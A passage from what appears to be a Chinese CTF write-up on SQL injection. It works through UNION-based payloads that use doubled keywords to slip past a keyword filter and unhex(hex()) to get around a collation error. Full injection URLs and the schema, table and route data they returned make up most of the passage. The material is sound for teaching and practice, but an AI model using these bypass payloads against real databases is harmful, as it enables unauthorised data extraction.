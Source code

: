 ### 联合查询不同字符集bypass

当查询其他表的信息时如：

```SQL
1功'uniounionn%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata%20%23
```

发现如下报错：

```SQL
HY000 1271 Illegal mix of collations for operation 'UNION'
```

这是因为两个数据库字符集不同，导致无法联合查询，不过居然找到老外的bypass方法，视频连接：

[https://vimeo.com/88672248](https://vimeo.com/88672248)

原理就是用unhex(hex())把要查询的字段包裹起来，解码的时候会自动符合编码要求，加上双写绕过最终payload如下：

```SQL
功'%20uniunionon%20select%201,unhunhexex(hehexx(group_concat(schema_name))),3%20from%20information_schema.schemata%20%23
```

### 数据库结构

```SQL

http://116.85.48.105:5033/05069d93-1384-4097-a7e7-047658cacbfa/well/getmessage/%E4%B9%88'%20uniunionon%20select%201,unhunhexex(hehexx(group_concat(schema_name))),3%20from%20information_schema.schemata%20%23

information_schema,sqli


http://116.85.48.105:5033/05069d93-1384-4097-a7e7-047658cacbfa/well/getmessage/%E4%B9%88'%20uniunionon%20select%201,2,unhunhexex(hehexx(group_concat(table_name)))%20from%20information_schema.tables%20where%20table_schema=0x73716C69%23


message,route_rules

http://116.85.48.105:5033/05069d93-1384-4097-a7e7-047658cacbfa/well/getmessage/%E4%B9%88'%20uniunionon%20select%201,2,unhunhexex(hehexx(group_concat(column_name)))%20from%20information_schema.columns%20where%20table_name=0x6D657373616765%23

id,name,contents

http://116.85.48.105:5033/05069d93-1384-4097-a7e7-047658cacbfa/well/getmessage/%E4%B9%88'%20uniunionon%20select%201,2,unhunhexex(hehexx(group_concat(column_name)))%20from%20information_schema.columns%20where%20table_name=0x726F7574655F72756C6573%23

id,pattern,action,rulepass


http://116.85.48.105:5033/05069d93-1384-4097-a7e7-047658cacbfa/well/getmessage/%E4%B9%88'%20uniunionon%20select%20unhunhexex(hehexx(pattern)),unhunhexex(hehexx(action)),unheunhexx(hhexex(rulepass))%20from%20route_rules%20%23


get*/	u/well/getmessage/	s
get*/	u/justtry/self/	s
post*/	u/justtry/try	JustTry#try
static/bootstrap/css/backup.css	static/bootstrap/css/backup.zip	

```
